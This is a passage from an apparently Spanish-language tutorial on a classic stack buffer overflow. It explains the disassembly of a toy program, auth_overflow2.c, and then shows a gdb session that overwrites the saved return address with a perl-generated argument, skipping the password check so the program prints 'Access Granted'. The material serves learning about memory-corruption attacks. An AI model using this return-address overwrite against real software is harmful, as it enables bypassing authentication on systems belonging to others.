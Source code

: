Las instrucciones del tipo *mov DWORD PTR [esp], 0x&#8230;&#8230;* son los argumentos para la función *printf*, inmediatamente despues da cada una de estas instrucciones se llama a la función con `call 0x804831c <printf>`. Las intrucciones que comienzan con una j son saltos condicionales (je = jump if equal), y jmp es incodicional, es decir, sigue la ejecución por la dirección indicada si o sí, sin evaluar ninguna condición. Observando un poco, nos damos cuenta que nos interesa sustituir la dirección de retorno para que se ejecute esta instrucción `0x080484bf <main>: mov DWORD PTR [esp],0x80485fb`, que corresponde con el primer printf. Y así saltarnos la comprobación del if.

Para conseguir sustituir la dirección de retorno por la que nos interesa, vamos a desbordar el buffer con el valor de dicha dirección:

```bash
gdb -q auth_overflow2.c.binary
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b 9
Breakpoint 1 at 0x8048421: file auth_overflow2.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x804846f: file auth_overflow2.c, line 16.
(gdb) run $(perl -e 'print "xbfx84x04x08"'x8)
Starting program: /home/hkr/booksrc/auth_overflow2.c.binary $(perl -e
'print "xbfx84x04x08"'x8)

Breakpoint 1, check_authentication (
    password=0xbffff9f6
"�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b")
at auth_overflow2.c:9
9               strcpy(password_buffer, password);
(gdb) x/16x $esp
0xbffff7c0:     0x00000000      0x08049744      0xbffff7d8      0x080482d9
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x00000000
0xbffff7e0:     0xb7fd6ff4      0xbffff8a0      0xbffff808      0xb7fd6ff4
0xbffff7f0:     0xb7ff47b0      0x08048510      0xbffff808      (0x080484bb)
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0xbffff900
"��������I���i���v���230�������")
    at auth_overflow2.c:16
16              return auth_flag;
(gdb) x/16x $esp
0xbffff7c0:     0xbffff7e0      0x080485dc      0xbffff7d8      0x080482d9
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x00000000
0xbffff7e0:     0x080484bf      0x080484bf      0x080484bf      0x080484bf
0xbffff7f0:     0x080484bf      0x080484bf      0x080484bf      (0x080484bf)
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

Program received signal SIGSEGV, Segmentation fault.
0xe8080485 in ?? ()
```


 [1]: http://www.amazon.es/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag;=elbaudelpro-21&linkCode;=as2&camp;=3626&creative;=24822&creativeASIN;=1593271441